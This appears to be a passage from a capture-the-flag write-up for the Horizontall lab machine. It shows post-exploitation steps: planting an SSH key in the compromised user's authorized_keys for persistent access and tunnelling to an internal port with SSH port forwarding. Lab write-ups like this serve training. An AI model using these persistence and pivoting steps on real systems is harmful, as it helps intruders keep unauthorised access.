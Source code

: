The MySQL server on port 3306 didn't contain any useful information so the next logical step was to create a reverse connection using SSH. 

#### Creating the keys on the victim machine
```
strapi@horizontall:~/.ssh$ ssh-keygen -t rsa -C "random comment"
ssh-keygen -t rsa -C "random comment"
Generating public/private rsa key pair.
Enter file in which to save the key (/opt/strapi/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:rWJqYvxvL5Ktiz3IsbuMdPBaoAr5n6R+M7Rigxixc5k random comment
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|                 |
|                 |
|.        .       |
| = o    S .      |
|=.E .    .       |
|=O O.+o .        |
|*+#=X++.         |
|o=O@OX.o.        |
+----[SHA256]-----+
strapi@horizontall:~/.ssh$ ls
ls
authorized_keys  id_rsa  id_rsa.pub
strapi@horizontall:~/.ssh$ cat id_rsa.pub >> authorized_keys
```

Then repeat these steps on the attacker machine and write out the generated key to the victim authorized key file. Then write out the victim-generated key to the authorized key file on the attacker machine. 

The next step is to make the reverse connection.

```
❯ ssh -L 8000:127.0.0.1:8000 strapi@horizontall.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-154-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Mon Jan 10 19:51:00 UTC 2022
  System load:  0.02              Processes:           186
  Usage of /:   85.0% of 4.85GB   Users logged in:     0
  Memory usage: 46%               IP address for eth0: 10.10.11.105
  Swap usage:   0%
  => / is using 85.0% of 4.85GB

0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Jan 10 19:48:18 2022 from 10.10.14.99
$
```
